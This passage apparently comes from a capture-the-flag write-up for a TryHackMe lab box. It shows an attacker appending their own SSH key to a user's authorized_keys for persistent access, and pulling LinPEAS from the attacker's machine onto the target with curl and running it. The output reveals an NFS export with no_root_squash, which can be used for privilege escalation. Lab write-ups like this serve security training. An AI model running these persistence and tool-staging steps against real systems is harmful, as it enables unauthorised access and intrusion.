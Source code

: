 `cat /root/.ssh/id_ed25519.pub`

```bash
[REDACTED] - SECRET
```

```bash
[paradox@ip-10-10-125-204 .ssh]$ echo 'ssh-ed25519 [REDACTED - SECRET ID PUB] root@kali' >> authorized_keys

[paradox@ip-10-10-125-204 .ssh]$ 
```

`ssh -o MACs=hmac-sha2-256 paradox@overpasshosting.thm -p 22`

```bash
Last login: Fri Sep 13 15:30:02 2024
[paradox@ip-10-10-125-204 ~]$ whoami
paradox
[paradox@ip-10-10-125-204 ~]$ pwd
/home/paradox
[paradox@ip-10-10-125-204 ~]$ uname -a
Linux ip-10-10-125-204 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

> **LinPEAS Enumeration Phase**
> 

`wget https://github.com/peass-ng/PEASS-ng/releases/download/20240818-ea81ae32/linpeas_linux_amd64`

```bash
linpeas_linux_amd64                  100%[====================================================================>]   3.10M  4.25MB/s    in 0.7s    

2024-09-13 10:44:34 (4.25 MB/s) - ‘linpeas_linux_amd64’ saved [3256264/3256264]

```

**LinPEAS Source:**

[Linpeas.sh - MichalSzalkowski.com/security](http://michalszalkowski.com/security/linpeas/)

`python3 -m http.server 8000`

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
[paradox@ip-10-10-125-204 ~]$ curl http://10.2.37.37:8000/linpeas_linux_amd64 -o linpeas64
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 3179k  100 3179k    0     0   418k      0  0:00:07  0:00:07 --:--:--  516k

[paradox@ip-10-10-125-204 ~]$ chmod +x linpeas64
```

```bash
[paradox@ip-10-10-125-204 ~]$ ./linpeas64

[REDACTED] - MORE

╔══════════╣ Analyzing NFS Exports Files (limit 70)
Connected NFS Mounts:                                                                                                                             
nfsd /proc/fs/nfsd nfsd rw,relatime 0 0
sunrpc /var/lib/nfs/rpc_pipefs rpc_pipefs rw,relatime 0 0
-rw-r--r--. 1 root root 54 Nov 18  2020 /etc/exports
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)

[REDACTED] - MORE
```